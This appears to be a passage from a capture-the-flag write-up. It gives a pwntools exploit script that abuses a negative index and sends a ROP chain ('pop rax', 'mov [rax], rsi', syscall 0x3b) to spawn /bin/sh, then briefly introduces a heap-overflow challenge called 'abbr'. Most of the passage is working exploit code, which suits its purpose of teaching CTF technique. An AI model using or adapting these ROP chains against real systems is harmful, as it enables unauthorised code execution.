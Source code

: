```py
gdbscript = '''
source /media/nasm/7044d811-e1cd-4997-97d5-c08072ce9497/Downloads/pwndbg/gdbinit.py
set follow-fork-mode parent
b* main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()
io.sendlineafter(b"Index: ", b"-2")

# 0x0000000000406c32 : mov qword ptr [rax], rsi ; ret
# 0x0000000000401001 : pop rax ; ret
# 0x00000000004019a3 : pop rsi ; ret
# 0x00000000004013e9 : syscall
# 0x0000000000403d23 : pop rdx ; ret
# 0x0000000000401b0d : pop rdi ; ret

POP_RDI = 0x0000000000401b0d
POP_RDX = 0x0000000000403d23
SYSCALL = 0x00000000004013e9
POP_RAX = 0x0000000000401001
POP_RSI = 0x00000000004019a3

MOV_RSI_PTR_RAX = 0x0000000000406c32

PT_LOAD_W = 0x00000000040c240

pld = pwn.p64(0) + pwn.p64(POP_RSI) + b"/bin/sh\x00"
pld += pwn.p64(POP_RAX) + pwn.p64(PT_LOAD_W)
pld += pwn.p64(MOV_RSI_PTR_RAX)
pld += pwn.p64(POP_RAX) + pwn.p64(0x3b)
pld += pwn.p64(POP_RDI) + pwn.p64(PT_LOAD_W)
pld += pwn.p64(POP_RSI) + pwn.p64(0)
pld += pwn.p64(POP_RDX) + pwn.p64(0x0)
pld += pwn.p64(SYSCALL)

io.sendlineafter(b"Data: ", pld)

io.interactive()
```

# abbr

abbr is very basic heap overflow, we just have to overwrite a function pointer to a stack pivot gadget with the help of a user controlled register. Then, we can drop a shell with a similar ROP as for the `justpwnit` challenge (the binary is also statically linked).
